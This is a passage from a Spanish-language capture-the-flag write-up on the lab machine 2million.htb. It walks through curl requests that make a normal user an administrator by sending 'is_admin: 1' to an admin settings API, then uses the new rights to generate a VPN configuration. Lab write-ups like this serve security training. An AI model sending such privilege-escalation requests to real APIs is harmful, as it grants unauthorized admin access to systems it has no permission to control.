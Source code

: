 ```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "delo@test.com", "is_admin": 1}' | jq

{
  "id": 13,
  "username": "delo",
  "is_admin": 1
}
```

No nos da ninguna respuesta concluyente por lo que vamos a comprobar si ahora somos admin haciendo, de nuevo, una solicitud a `/api/v1/admin/auth`.

```
curl -s http://2million.htb/api/v1/admin/auth -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "message": true
}
```

La api nos responde que somos administradores. Esto podría permitirnos acceder a otras rutas de la api a las que antes teníamos prohibido el acceso. Por ejemplo la ruta `/api/v1/admin/vpn/generate`.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "status": "danger",
  "message": "Invalid content type."
}
```

Volvemos a recibir el error de tipo de contenido invalido, por lo que una vez mas le pasamos los datos en formato json.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{}' | jq

{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

Le pasamos un nombre de usuario cualquiera, por ejemplo el que hemos usado para registrarnos.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "delo"}'

client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
```